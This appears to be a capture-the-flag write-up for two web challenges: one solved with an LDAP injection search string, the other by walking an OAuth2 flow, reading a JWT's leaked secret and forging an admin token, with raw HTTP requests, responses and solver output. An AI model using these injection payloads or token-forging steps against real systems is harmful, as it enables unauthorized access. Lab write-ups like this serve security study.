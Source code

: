 <a name="ldab"/>

# Ldab

Points : 50

Sovled: **432 / 1448**

Tags: **Blind, Ldap injection**

Link: **http://web.chal.csaw.io:8080**

**How to solve ?**
- Search for list all of all users and groups 

**Solution**
1. Check for LDAP injection payloads [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)
2. Request `http://web.chal.csaw.io:8080/index.php?search=*))(|(GivenName=*)(UID=*`
3. Flag `flag{ld4p_inj3ction_i5_a_th1ng}`

<a name="sso"/>

# SSO

Points: 100

Sovled: **210 / 1448
How to solve ?**

Tags: **Blackbox, Oauth2, Signle Sign On, JWT token**

Link: **web.chal.csaw.io:9000**

**Steps to solve :**
- Use oauth 2.0 for authorization and authentication
- Get the secret to forge a valid JWT token and get the flag

**Solution :**
1. Get code authorization: `/oauth2/authorize`
 - response_type: `code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - state: `http://web.chal.csaw.io:9000/protected`
 - scopy: `http://web.chal.csaw.io:9000/protected`
 - client_id: `admin`
 - client_secret: `admin`

*Request*
```
POST /oauth2/authorize  HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

response_type=code&redirect_uri=http://web.chal.csaw.io:9000/protected&state=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&scope=http%3A%2F%2Fweb.chal%2Ecsaw%2Eio%3a9000%2Fprotected&client_id=admin&client_secret=admin
```
*Response*
```
http://web.chal.csaw.io:9000/protected?code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&amp;state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected
```

2. Get token for authentication: `/oauth2/token`:
 - code: receive from request 1 
 - state: `http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected`
 - grant_type: `authorization_code`
 - redirect_uri: `http://web.chal.csaw.io:9000/protected`
 - client_secret: `admin`
 - client_id: `admin`

*Request*
```
POST /oauth2/token HTTP/1.1
Host: web.chal.csaw.io:9000
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 411

code=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MDYzODAzLCJleHAiOjE1MzcwNjQ0MDN9.fTuYlRB4HeXwKC6uo90s4Xqb3UHeoZMAoYjhaMuzdFw&state=http%3A%2F%2Fweb.chal.csaw.io%3A9000%2Fprotected&grant_type=authorization_code&redirect_uri=http://web.chal.csaw.io:9000/protected&client_secret=ufoundme!&client_id=admin
```

*Response*
```
{"token_type":"Bearer","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzA2Mzg3MCwiZXhwIjoxNTM3MDY0NDcwfQ.4Vlaf8qsPoPyNNIX6CNVgn_w1zHbnVJEg5dJQZmMeGk"}
```

*Raw token*
```
{"alg":"HS256","typ":"JWT"}{"type":"user","secret":"ufoundme!","iat":1537063870,"exp":1537064470} + signature`
``` 

3. Crack signature JWT, change token 
 - Crack online on https://jwt.io/
![Crack JWT token](./resource_web/web-sso.png)

4. Get flag 

```
GET /protected HTTP/1.1
Host: web.chal.csaw.io:9000
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcwNjM4NzAsImV4cCI6MTUzNzA2NDQ3MH0.0nrhvscHLcDxopIVt6FzV8mn2KhGI4CbEMfOsrHvnJ0
Connection: close
Origin: http://web.chal.csaw.io:9000
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Referer: http://web.chal.csaw.io:9000/oauth2/authorize
Content-Length: 369
```

5. Flag: `flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}`

6. Code python for solve challenge: [here](./scripts/sso.py)

```
$ Request to oauth2/authorize ...
> Code = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjbGllbnRfaWQiOiJhZG1pbiIsInJlZGlyZWN0X3VyaSI6Imh0dHA6Ly93ZWIuY2hhbC5jc2F3LmlvOjkwMDAvcHJvdGVjdGVkIiwiaWF0IjoxNTM3MTM2NTQ2LCJleHAiOjE1MzcxMzcxNDZ9.kV123Uzgg4H7i_DxNg6u6QCBiFP2y3sMFNzxZhXtrQw
$ Request to oauth2/token ...
> Token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoidXNlciIsInNlY3JldCI6InVmb3VuZG1lISIsImlhdCI6MTUzNzEzNjU0OCwiZXhwIjoxNTM3MTM3MTQ4fQ.inn4CGJOX4ID6kab4YdK70ZKqBwV0Be92s6dp2yAUvA
$ Crack signature and change data ...
> New token = eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ0eXBlIjoiYWRtaW4iLCJzZWNyZXQiOiJ1Zm91bmRtZSEiLCJpYXQiOjE1MzcxMzY1NDgsImV4cCI6MTUzNzEzNzE0OH0.60wi5F1gDUUqNLCKLPDAiENUBRJWhFEzE1xeFqc8RrQ
$ Request to /protected ...
flag{JsonWebTokensaretheeasieststorage-lessdataoptiononthemarket!theyrelyonsupersecureblockchainlevelencryptionfortheirmethods}
```
